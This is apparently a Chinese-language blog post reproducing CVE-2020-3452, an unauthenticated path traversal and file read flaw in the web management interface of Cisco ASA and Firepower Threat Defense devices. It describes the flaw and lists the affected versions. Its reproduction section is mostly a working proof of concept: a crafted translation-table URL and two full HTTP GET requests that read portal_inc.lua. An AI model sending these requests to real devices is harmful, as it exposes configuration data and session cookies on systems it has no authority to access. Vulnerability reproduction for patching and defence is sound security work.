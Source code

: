 # CISCO ASA任意文件读取漏洞复现 (CVE-2020-3452)


**一、漏洞描述：**

Cisco Adaptive Security Appliance (ASA)

防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的web管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞。攻击者只能查看web目录下的文件，无法通过该漏洞访问web目录之外的文件。该漏洞可以查看webVpn设备的配置信息，cookies等。

**二、影响范围**

以下是CVE-2020-3452漏洞受影响的系统版本：

Cisco ASA 设备影响版本:

* <9.6.1
* 9.6 < 9.6.4.42
* 9.71
* 9.8 < 9.8.4.20
* 9.9 < 9.9.2.74
* 9.10 < 9.10.1.42
* 9.12 < 9.12.3.12
* 9.13 < 9.13.1.10
* 9.14 < 9.14.1.10

Cisco FTD设备影响版本：

* 6.2.2
* 6.2.3 < 6.2.3.16
* 6.3.0 < Migrate to 6.4.0.9 + Hot Fix or to 6.6.0.1
* 6.4.0 < 6.4.0.9 + Hot Fix
* 6.5.0 < Migrate to 6.6.0.1 or 6.5.0.4 + Hot Fix (August 2020)
* 6.6.0 < 6.6.0.1

**三、漏洞复现**

POC：


```bash
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

详细数据包


```bash
GET /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../ HTTP/1.1
Host: 127.0.0.1
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3494.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Cookie: webvpnlogin=1; webvpnLang=en
```


```bash
GET /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../ HTTP/1.1
Host: 127.0.0.1
Content-Length: 2
```